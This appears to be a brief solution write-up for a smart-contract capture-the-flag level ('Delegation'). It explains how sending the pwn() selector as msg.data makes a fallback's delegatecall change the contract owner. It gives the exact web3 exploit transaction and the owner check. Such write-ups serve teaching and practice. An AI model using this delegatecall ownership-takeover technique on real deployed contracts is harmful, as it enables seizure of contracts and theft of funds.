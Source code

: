 Idea is to somehow call Delegate.pwn() which is where owner is changed. We can do this by calling Delegation.(fallback) by sending a function in the msg.data field (or first 4 bytes of the hash of the function signature, to be precise).

contract.sendTransaction({data: web3.sha3("pwn()").slice(0,10)})

To verify changed owner:
await contract.owner()
"0x6ba166580bd6989f2cad8b5245d269b845694baf"

